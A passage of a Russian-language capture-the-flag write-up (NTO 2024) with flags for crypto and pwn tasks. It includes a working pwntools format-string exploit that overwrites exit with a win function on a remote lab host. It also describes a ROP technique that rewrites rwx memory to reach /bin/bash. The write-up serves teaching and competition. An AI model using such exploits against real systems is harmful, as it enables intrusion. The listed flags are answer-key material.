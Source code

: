 Полноценный скрипт решения (использует sagemath и PyCryptodome) [прилагается](./crypto2.py)

`flag`: nto{50mb0dy_45k3d_m3_f0r_d1scr3t3_l0g_2}


## pwn1

Используем Ghidra для декомпиляции программы, видим format string vulnerability. Генерируем пейлоад, меняющий функцию exit в plt на функцию win, при помощи pwntools. Читем флаг: `cat flag`
```Python
from pwn import *

context.log_level = 'debug'
context.bits = 64


addr = 0x404018
value = 0x401156

payload = fmtstr_payload(6, {addr : value})

# con = process("./main")
con = remote("192.168.12.13", 1923)

con.send(payload + b"\n")

con.interactive()
```

`flag`: nto{easy_formt_string}

## Pwn 2

Дизассемблируем файл с помощью Ghidra. Программа читает 500 байт на стек. Можно переписать адрес возврата.  
![image](https://github.com/maximxlss/nto-2024-xls-team/assets/91249047/ba6292fd-b10e-434c-aeba-5fe93ccf37b3)  
Также есть строка `"/bin/bash"`  
![image](https://github.com/maximxlss/nto-2024-xls-team/assets/91249047/ba89f41d-153c-423b-b065-58a2ef599b49)  
И rwx память после функции (с адреса `0x41000` до `0x42000`), большая часть которой - байты `0x00`.
`0x00, 0x00` дизассемблируется как `add [rax], al`. Также по адресу `0x41013` есть гаджет `add byte ptr [rax], al; syscall; ret` и по адресу `0x41018` - `pop rax; ret`.

Переполнив адрес возврата, поместим значение `0x410c3` в регистр rax, затем вызовем гаджет `add byte ptr [rax], al; syscall; ret` (syscall не нужен, но он не мешает) и по адресу `0x410c3` запишем инструкцию `ret`. До неё идёт много байтов `0x00`, которые означают инструкцию `add [rax], al`.

С помощью этого можно модифицировать некоторые байты в памяти и составить необходимый ROP-гаджет. Для этого я написал `genpb.py` и `gennpb.py`. Первый рассчитвает количество раз, которое надо вызвать `add [rax], al` чтобы преобразовать байт из нуля в нужное число (это не всегда возможно, в этом случае возвращается `-1`).

Второй скрипт делает аналогичные операции для 2-х файлов и печатает результаты в формате, подходящем для вставки в Python-код. Аргументы командной строки: `./gennpb.py <target_bytes> <start_addr> <curr_bytes>`.  
`target_bytes` - требуемая последовательность байт (файл) 
`start_addr` - последний байт адреса, с которого начинается запись  
`curr_bytes` - Текущее состояние байт (файл), можно указать `Nulls` если это байты `0x00`.
